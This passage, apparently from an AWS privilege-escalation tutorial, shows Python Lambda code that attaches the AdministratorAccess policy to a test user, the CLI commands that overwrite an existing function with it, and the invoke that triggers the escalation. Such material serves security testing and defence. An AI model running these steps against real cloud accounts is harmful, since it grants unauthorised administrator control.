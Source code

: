 ```json
```

When updating Lambda function code, the name of the code file needs to match the handler name of the existing Lambda function. The name of the handler for the target function is lambda_function as shown in the output above. Therefore, the name of our code file needs to be `lambda_function.py`:

`lambda_function.py`

```python3
import boto3
def lambda_handler(event, context):
    client = boto3.client('iam')
    response = client.attach_user_policy(UserName='privesc_test',PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
    return response

➜ zip function.zip lambda_function.py
adding: lambda_function.py (deflated 27%)
```

The attacker can now update the code for the Lambda function with the following command:

```bash
➜ aws lambda update-function-code --function-name JustSomeFunction --zip-file fileb://function.zip --region us-west-2 --profile privesc
```

```json
{
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "CodeSha256": "ZP3U8CIrgroYQtPVj6OC5vKOq2+4ltt/LtyWZTgnlUo=",
    "FunctionName": "JustSomeFunction",
    "CodeSize": 322,
    "RevisionId": "6e4dcd43-ae62-409e-a590-fc608328b10c",
    "MemorySize": 128,
    "FunctionArn": "arn:aws:lambda:us-west-2:[REDACTED]:function:JustSomeFunction",
    "Version": "$LATEST",
    "Role": "arn:aws:iam::[REDACTED]:role/privesc17lambda",
    "Timeout": 3,
    "LastModified": "2019-09-09T17:02:49.324+0000",
    "Handler": "lambda_function.lambda_handler",
    "Runtime": "python3.6",
    "Description": ""
}
```

When the function gets executed, the attacker's privileges will be elevated. If the attacker has the lambda:InvokeFunction permission then it's possible to just invoke the function directly. Otherwise, it will occur when another user or service executes the function. In the example below, another user executes the function. Note the lack of the --profile privesc flag in the command, indicating that a different set of API keys were used to issue this command:

```bash
➜ aws lambda invoke --function-name JustSomeFunction output.txt --region us-west-2
```
